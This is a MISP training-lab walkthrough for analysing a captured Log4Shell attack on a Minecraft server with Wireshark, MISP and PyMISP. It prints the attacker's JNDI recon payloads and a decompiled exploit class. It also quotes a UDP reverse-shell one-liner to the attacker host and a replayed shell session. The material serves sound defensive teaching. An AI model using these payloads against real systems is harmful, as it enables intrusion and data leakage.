


# MISP Log4shell lab
## Actors
* `172.31.84.208`: Minecraft Server [v1.18](https://launcher.mojang.com/v1/objects/3cf24a8694aca6267883b17d934efacc5e44440d/server.jar), vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
* `178.249.193.69`: Player using official Minecraft client
* `18.212.74.161`: attacker machine using a custom python script to connect to Minecraft Server. Also hosts an evil LDAP server, HTTP server, and UDP reverse shell listener
* `*.interact.sh`: used by the attacker for initial DNS probing.

## Playbook
### Exercise 1: Identifying the external actors
Warm-up exercise to get the students to open Wireshark and start familiarizing themselves with the capture file.

A good start can be opening Wireshark capture statistics:
* _`Statistics`_ -> _`IPv4 Statistics`_ -> _`All Addresses`_

Wireshark filter to isolate traffic betweehn two IPs (Minecraft Server <-> Attacker):
* `ip.addr == 172.31.84.208 && ip.addr == 18.212.74.161`

Wireshark filter to show failed DNS requests, common practice for C2 beaconing:
* `dns.flags.rcode != 0`

It will show the distinct IPv4 addresses, sorting by packet count the top 3 is the ones we are interested in:
* **172.31.84.208 (private)**: Minecraft Server (known)
* **178.249.193.69 (LU)**: Player
* **18.212.74.161 (US)**: Attacker


### Exercise 2: In-depth analysis
* Use Wireshark packet search to find "jndi" string in the packets.

**Recon & Exifiltration**
| Timestamp            | Packet No | Actor            | Description                                                                   | Payload                                                                                                                 |
| -------------------- | --------- | ---------------- | ----------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------- |
| 1647007780.198573000 | 5         | Player           | legit user connects to Minecraft Server and plays normally (background noise) | -                                                                                                                       |
| 1647007801.266331000 | 1540      | Attacker         | connects to Minecraft Server                                                  | -                                                                                                                       |
| 1647007803.289267000 | 2488      | Attacker         | sends chat that triggers DNS probe to `*.interact.sh`                         | `${jndi:dns://hostname-${hostName}.c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh}`                                      |
| 1647007803.317513000 | 2496      | Minecraft Server | leaks the Minecraft Server hostname and it's internal IP to the attacker      | _DNS	142	Standard query 0x7f95 AAAA `hostname-ip-172-31-84-208.c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh` OPT_      |
| 1647007815.289139000 | 3376      | Attacker         | sends another chat with JNDI payload (DNS)                                    | `${jndi:dns://user-${env:USER}.c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh}`                                          |
| 1647007815.301738000 | 3378      | Minecraft Server | leaks the Minecraft Server OS username                                        | _DNS	128	Standard query 0x0304 AAAA `user-ubuntu.c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh` OPT_                    |
| 1647007817.289185000 | 3615      | Attacker         | sends another chat with JNDI DNS payload (DNS)                                | `${jndi:dns://version-${sys:java.version}.c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh}`                               |
| 1647007817.292140000 | 3619      | Minecraft Server | leaks the Minecraft Server Java version                                       | _DNS	131	Standard query 0x5a3d AAAA `version-17.0.2.c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh` OPT_                 |
| 1647007819.291165000 | 3787      | Attacker         | sends another chat with JNDI DNS payload (LDAP)                               | `${jndi:ldap://18.212.74.161/${java:version}}`                                                                          |
| 1647007819.361345000 | 3798      | Minecraft Server | leaks the Minecraft Server Java version                                       | _LDAP	153	searchRequest(2) `"Java version 17.0.2"` baseObject_                                                          |
| 1647007821.288549000 | 4038      | Attacker         | sends another chat with JNDI DNS payload (LDAP)                               | `${jndi:ldap://18.212.74.161/${java:os}}`                                                                               |
| 1647007821.319408000 | 4049      | Minecraft Server | leaks the Minecraft Server OS version                                         | _LDAP	179	searchRequest(2) `"Linux 5.11.0-1022-aws, architecture: amd64-64"` baseObject_                                |
| 1647007823.289390000 | 4257      | Attacker         | sends another chat with JNDI DNS payload (LDAP)                               | `${jndi:ldap://18.212.74.161/${java:vm}}`                                                                               |
| 1647007823.321192000 | 4266      | Minecraft Server | leaks the Minecraft Server Java VM version                                    | _LDAP	211	searchRequest(2) `"OpenJDK 64-Bit Server VM (build 17.0.2 8-Ubuntu-120.04, mixed mode, sharing)"` baseObject_ |
| 1647007825.291858000 | 4459      | Attacker         | sends another chat with JNDI DNS payload (LDAP)                               | `${jndi:ldap://18.212.74.161/${java:locale}}`                                                                           |
| 1647007825.304087000 | 4468      | Minecraft Server | leaks the Minecraft Server Java Locale                                        | _LDAP	178	searchRequest(2) `"default locale: en, platform encoding: UTF-8"` baseObject_                                 |
| 1647007825.291858000 | 4459      | Attacker         | sends another chat with JNDI DNS payload (LDAP)                               | `${jndi:ldap://18.212.74.161/${java:locale}}`                                                                           |
| 1647007825.304087000 | 4468      | Minecraft Server | leaks the Minecraft Server Java Locale                                        | _LDAP	178	searchRequest(2) `"default locale: en, platform encoding: UTF-8"` baseObject_                                 |
| 1647007827.339737000 | 4720      | Attacker         | sends another chat with JNDI DNS payload (LDAP)                               | `${jndi:ldap://18.212.74.161/${java:hw}}`                                                                               |
| 1647007827.345590000 | 4729      | Minecraft Server | leaks the Minecraft Server hardware info                                      | _LDAP	171	searchRequest(2) `"processors: 2, architecture: amd64-64"` baseObject_                                        |

#### Exercise 3: Payload delivery and RCE

| Timestamp            | Packet No | Actor            | Description                                                                                                                                                               | Payload                                   |
| -------------------- | --------- | ---------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------- |
| 1647007829.339841000 | 5094      | Attacker         | delivers UDP reverse shell JNDI payload that triggers the [javaFactory class loader mechanism](https://docs.oracle.com/javase/jndi/tutorial/beyond/misc/classloader.html) | `${jndi:ldap://18.212.74.161:389/1svssl}` |
| 1647007829.375305000 | 5114      | Minecraft Server | Java exploit is requested via HTTP and results in RCE                                                                                                                     | _GET `/ExecTemplateJDK8.class` HTTP/1.1_  |
| 1647007829.494656000 | 5122      | Minecraft Server | starts the reverse shell session                                                                                                                                          | -                                         |


**Reverse shell session**
| Timestamp            | Packet No | CMD                                               | Response                                                                                                                                                                                                                  |
| -------------------- | --------- | ------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1647007833.493952000 | 5184      | `ls`                                              | `packet no. 5185`: <br>banned-ips.json banned-players.json<br>crash-reports<br>eula.txt<br>libraries<br>logs<br>ops.json<br>server.properties<br>server_1.18.jar<br>usercache.json<br>versions<br>whitelist.json<br>world |
| 1647007836.442065000 | 5198      | `whoami`                                          | `packet no. 5194`:<br> ubuntu                                                                                                                                                                                             |
| 1647007837.329280000 | 5198      | `id`                                              | `packet no. 5199`:<br>uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd)                                 |
| 1647007842.255104000 | 5211      | `pwd`                                             | `packet no. 5212`:<br>/home/ubuntu/minecraft_1.8                                                                                                                                                                          |
| 1647007853.571004000 | 5238      | `wget http://www.youtube.com/watch?v=dQw4w9WgXcQ` | `packet no. 5239-6278`                                                                                                                                                                                                    |
| 1647007859.419124000 | 6290      | `exit`                                            | -                                                                                                                                                                                                                         |
    
* [Jadx](https://github.com/skylot/jadx) or any other java decompiler can be used to get the exploits source code, see _**Malware Analysis**_ section for more details.
* Wireshark filter that shows an overview of the LDAP interaction: 
  * `tcp.stream eq 33`
  * `ip.src==18.212.74.161 && udp`
  * `udp.stream eq 12`

**NOTE**: This simple exploit works in a modern Java version (17.0.2) because the Minecraft Server has explictly set the `-Dcom.sun.jndi.ldap.object.trustURLCodebase=true` Java VM option. Java JDK versions greater than `6u211`, `7u201`, `8u191`, and `11.0.1` have this setting set to `false` by default, which would make this exploit fail. Still, deserialization gadgets can be used to get an RCE see [ysoserial](https://github.com/frohoff/ysoserial). However these exploits are hard to achieve in modern Java versions, and out of the scope of this lab.

### MISP

#### Event
Goal is to create a new Event and encode the main actors in the scenario and their relationships using [MISP Objects](https://www.misp-project.org/objects.html#_domain_ip) and Object References.
1. go to your MISP instance and then to _`Event Actions`_ -> _`Add Event`_, set _"Log4j Exploitation"_ as the Event Info (title).
2. create a `network/domain-ip` object to represent our Minecraft Server:
   * **Comment**: Minecraft Server 
   * **IP**: 172.31.84.208
   * **Port**: 25565
   * **First seen date:** 2022-03-11
   * **First seen time:** 14:09:40.081000+00:00
   * **Last seen date:** 2022-03-11
   * **Last seen time:** 14:10:59.506000+00:00
3. create a network/domain-ip object for the Player:
   * **Comment**: Player
   * **IP**: 178.249.193.69
   * **Port**: 60237
   * **Port**: 25565
   * **First seen date:** 2022-03-11
   * **First seen time:** 14:09:40.081000+00:00
   * **Last seen date:** 2022-03-11
   * **Last seen time:** 14:10:59.391000+00:00
4. create a network/domain-ip object for the Attacker:
   * **Comment**: Attacker
   * **IP**: 178.249.193.69
   * **Port**: 58574
   * **Port**: 58576
   * **Port**: 389
   * **Port**: 8000
   * **Port**: 6666
   * **First seen date:** 2022-03-11
   * **First seen time:** 14:10:01.266000+00:00
   * **Last seen date:** 2022-03-11
   * **Last seen time:** 14:10:59.419000+00:00
5. create a network/domain-ip object for the `*.interact.sh` domain:
   * **Comment**: *.interact.sh
   * **Domain**: c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh
   * **IP**: 46.101.25.250
   * **Port**: 53
   * **First seen date:** 2022-03-11
   * **First seen time:** 14:10:01.266000+00:00
   * **Last seen date:** 2022-03-11
   * **Last seen time:** 14:10:59.419000+00:00
6. create a `Player`->[`connects-to`]->`Minecraft Server` object reference.
7. create a `Attacker`->[`uses-for-recon`]->`*.interact.sh` object reference.
8. create a `Minecraft Server`->[`connects-to`]->`*.interact.sh` object reference.
9. create a `Attacker`->[`compromised`]->`Minecraft Server` object reference.

#### Timeline
The goal is to add more fine-grained information about the attack, this could be done by automated tools such as in the _**PyMISP and Scapy**_ section or manually by the analyst.

Encode all the relevant interactions identified in Exercise 2 and 3 with their timestamps, as Objects or Attributes, remember the later cannot have relationships.

To have a exhaustive timeline, encode:
* All chat messages sent by the Attacker and their payloads
* All DNS requests where the server leaked information
* All LDAP `searchRequests` where the server leaked information
* The Java exploit as a malware sample.
* All commands run by the Attacker via the reverse shell

#### Context
The goal is to add context/metadata at an Event and Object level.

* Add appropiate Tags
* Add attach appropiate Galaxy Clusters
  * Use MITRE ATT\&CK galaxy as a bare minimum

#### PyMISP and Scapy
The goal is to show how easy is to use [PyMISP](https://github.com/MISP/PyMISP) to interact with MISP instances and, how we can leverage third-party Python libraries such as [Scapy](https://github.com/secdev/scapy) to create automated workflows.
1. create a new Event in your MISP instance, take note of the `event_id`:
2. create a new API key for your user by going to _`/auth_keys/index`_ -> _`+ Add authentication key`_ -> _`Submit`_, take note of the new API key.
3. install [Scapy](https://github.com/secdev/scapy) in your MISP `venv`:

    `/var/www/MISP/venv/bin/python -m pip install scapy`
4. sample script parse a pcap file and push failed dns requests as attributes:
    ```python
    #!/var/www/MISP/venv python3.8
    # -*- coding: utf-8 -*-

    """
    populate_event.py
    This script pushes failed DNS requests from an input pcap file to a MISP instance as attributes to a given event.

    usage: python populate_event.py [capture.pcap] [event_id]
    """

    from pymisp import PyMISP, MISPAttribute, MISPSighting
    from scapy.all import *
    import sys

    api = PyMISP("https://YOUR_MISP_HOST/", "YOUR_API_KEY")

    if len(sys.argv) < 2:
        exit("usage: python populate_event.py [capture-e.304.pcap] [event_id]")
        
    pcap = rdpcap(sys.argv[1])
    event_id = sys.argv[2]

    for pkt in pcap:
        dns_pkt = pkt.getlayer('DNS')
        if dns_pkt and pkt.opcode == 0 and dns_pkt.rcode != 0:
            attr = MISPAttribute()
            attr.type = 'domain'
            attr.to_ids = True
            attr.comment = 'dns exfiltration'
            attr.first_seen = float(pkt.time)
            attr.value = dns_pkt.qd.qname.decode("utf-8").rstrip(".")
            res = api.add_attribute(event_id, attr, pythonify=True)
    ```
    
5. replace your MISP instance hostname and your recently created API key in the following line:

    ```python
    api = PyMISP("https://YOUR_MISP_HOST/", "YOUR_API_KEY")
    ```

6. sample usage:
    ```
    $ python populate_event.py ./misp-training-lea/e.304-lab3-encoding-information-and-sharing-it-2/for-students/capture-e.304.pcap [event_id] 
    ```

7. extended script with [Sightings](https://www.circl.lu/doc/misp/sightings/) support:

      ```python
      #!/var/www/MISP/venv python3.8
      # -*- coding: utf-8 -*-

      """
      populate_event.py
      This script pushes failed DNS requests from an input pcap file to a MISP instance as attributes to a given event.

      usage: python populate_event.py [capture.pcap] [event_id]
      """

      from pymisp import PyMISP, MISPAttribute, MISPSighting
      from scapy.all import *
      import sys

      api = PyMISP("https://YOUR_MISP_HOST/", "YOUR_API_KEY")

      if len(sys.argv) < 2:
          exit("usage: python populate_event.py [capture-e.304.pcap] [event_id]")
          
      pcap = rdpcap(sys.argv[1])
      event_id = sys.argv[2]

      dup_error_msg = "A similar attribute already exists for this event."

      for pkt in pcap:
          dns_pkt = pkt.getlayer('DNS')
          if dns_pkt and pkt.opcode == 0 and dns_pkt.rcode != 0:
              attr = MISPAttribute()
              attr.type = 'domain'
              attr.to_ids = True
              attr.comment = 'dns exfiltration'
              attr.first_seen = float(pkt.time)
              attr.value = dns_pkt.qd.qname.decode("utf-8").rstrip(".")
              res = api.add_attribute(event_id, attr, pythonify=True)

              if res['errors'] and dup_error_msg in res['errors'][1]['errors']['value']:
                sighting = MISPSighting()
                sighting.value = attr.value
                sighting.timestamp = float(pkt.time)
                api.add_sighting(sighting)
      ```

#### misp-wireshark
> [misp-wireshark](https://github.com/MISP/misp-wireshark) is a Lua plugin intended to help analysts extract data from Wireshark and convert it into the MISP Core format.

1. go to _`Wireshark`_ -> _`Tools`_ -> _`MISP: Export to MISP format`_
    use the following filter: _`tcp.stream eq 34`_ and hit OK

    

    * copy the json contents from the pop-up window

2. in your MISP instance, open the exercise event and on the menu on the left select:
    `Populate from...` -> `Populate using a JSON file containing MISP event content data`
    
    * paste the copied json from Wireshark and click on Submit.

**Event graph view**


### Malware analysis
1. exploit class can be extracted with `File -> Export Objects -> HTTP... -> ExecTemplateJDK8.class`
2. decompile [ExecTemplateJDK8.class](./ExecTemplateJDK8.class) with [Jadx](https://github.com/skylot/jadx):
    ```java
    package defpackage;

    /* renamed from: ExecTemplateJDK8  reason: default package */
    public class ExecTemplateJDK8 {
        static {
            try {
                Runtime.getRuntime().exec(System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"cmd.exe", "/C", "sh -i >& /dev/udp/18.212.74.161/6666 0>&1"} : new String[]{"/bin/bash", "-c", "sh -i >& /dev/udp/18.212.74.161/6666 0>&1"});
            } catch (Exception e) {
                e.printStackTrace();
            }
            System.out.println();
        }
    }
    ```
    
    * already extracted source can be found here: [ExecTemplateJDK8.java](./ExecTemplateJDK8.java)

3. the one-liner reverse shell can be extracted:
    `sh -i >& /dev/udp/18.212.74.161/6666 0>&1`
    -> reverse shell listener running on `18.212.74.161` (attacker machine).
4. analyzing the udp stream to the remote port 6666 in Wireshark:
   `udp.stream eq 12`
    ```
    $ ls
    banned-ips.json
    banned-players.json
    crash-reports
    eula.txt
    libraries
    logs
    ops.json
    server.properties
    server_1.18.jar
    usercache.json
    versions
    whitelist.json
    world
    $ whoami
    ubuntu
    $ id
    uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd)
    $ pwd
    /home/ubuntu/minecraft_1.8
    $ wget http://www.youtube.com/watch?v=dQw4w9WgXcQ
    --2022-03-11 14:10:53--  http://www.youtube.com/watch?v=dQw4w9WgXcQ
    Resolving www.youtube.com (www.youtube.com)... 142.251.33.206, 142.250.188.46, 142.250.81.206, ...
    Connecting to www.youtube.com (www.youtube.com)|142.251.33.206|:80... connected.
    HTTP request sent, awaiting response... 301 Moved Permanently
    Location: https://www.youtube.com/watch?v=dQw4w9WgXcQ [following]
    --2022-03-11 14:10:53--  https://www.youtube.com/watch?v=dQw4w9WgXcQ
    Connecting to www.youtube.com (www.youtube.com)|142.251.33.206|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: unspecified [text/html]
    Saving to: ...watch?v=dQw4w9WgXcQ...

         0K .......... .......... .......... .......... .......... 4.68M
        50K .......... .......... .......... .......... .......... 8.45M
       100K .......... .......... .......... .......... .......... 6.60M
       150K .......... .......... .......... .......... .......... 1.00M
       200K .......... .......... .......... .......... .......... 9.32M
       250K .......... .......... .......... .......... .......... 14.0M
       300K .......... .......... .......... .......... .......... 46.7K
       350K .......... .......... .......... .......... .......... 20.6M
       400K .......... .......... .......... .......... .......... 28.9M
       450K .......... .......... .......... .......... .......... 15.6M
       500K .......... .......... .......... .......... .......... 20.9M
       550K .......... .......... .......... .......... .......... 6.91M
       600K ....                                                   67.7M=1.2s

    2022-03-11 14:10:54 (518 KB/s) - ...watch?v=dQw4w9WgXcQ... saved [619428]

    $ exit
    ```
